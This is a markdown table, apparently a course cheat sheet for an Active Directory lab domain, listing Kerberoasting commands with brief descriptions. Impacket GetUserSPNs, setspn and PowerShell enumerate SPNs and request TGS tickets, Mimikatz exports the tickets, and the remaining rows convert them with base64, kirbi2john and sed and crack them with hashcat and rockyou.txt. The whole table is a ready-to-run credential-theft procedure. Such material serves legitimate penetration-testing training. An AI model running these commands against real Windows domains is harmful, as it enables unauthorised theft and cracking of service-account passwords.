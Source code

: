 | `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday`                                                                                                                                             | Impacket tool used to get a list of `SPNs` on the target Windows domain from a Linux-based host.                                                                                                 |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request`                                                                                                                                    | Impacket tool used to download/request (`-request`) all TGS tickets for offline processing from a Linux-based host.                                                                              |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev`                                                                                                                        | Impacket tool used to download/request (`-request-user`) a TGS ticket for a specific user account (`sqldev`) from a Linux-based host.                                                            |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs`                                                                                                 | Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (`-outputfile sqldev_tgs`) linux-based host.                                      |
| `hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force`                                                                                                                                       | Attempts to crack the Kerberos (`-m 13100`) ticket hash (`sqldev_tgs`) using `hashcat` and a wordlist (`rockyou.txt`) from a Linux-based host.                                                   |
| `setspn.exe -Q */*`                                                                                                                                                                                          | Used to enumerate `SPNs` in a target Windows domain from a Windows-based host.                                                                                                                   |
| `Add-Type -AssemblyName System.IdentityModel New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"`                            | PowerShell script used to download/request the TGS ticket of a specific user from a Windows-based host.                                                                                          |
| `setspn.exe -T INLANEFREIGHT.LOCAL -Q */* \| Select-String '^CN' -Context 0,1 \| % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }` | Used to download/request all TGS tickets from a WIndows-based host.                                                                                                                              |
| `mimikatz # base64 /out:true`                                                                                                                                                                                | `Mimikatz` command that ensures TGS tickets are extracted in `base64` format from a Windows-based host.                                                                                          |
| `kerberos::list /export`                                                                                                                                                                                     | `Mimikatz` command used to extract the TGS tickets from a Windows-based host.                                                                                                                    |
| `echo "<base64 blob>" \| tr -d \\n`                                                                                                                                                                          | Used to prepare the base64 formatted TGS ticket for cracking from Linux-based host.                                                                                                              |
| `cat encoded_file \| base64 -d > sqldev.kirbi`                                                                                                                                                               | Used to output a file (`encoded_file`) into a .kirbi file in base64 (`base64 -d > sqldev.kirbi`) format from a Linux-based host.                                                                 |
| `python2.7 kirbi2john.py sqldev.kirbi`                                                                                                                                                                       | Used to extract the `Kerberos ticket`. This also creates a file called `crack_file` from a Linux-based host.                                                                                     |
| `sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat`                                                                                                                | Used to modify the `crack_file` for `Hashcat` from a Linux-based host.                                                                                                                           |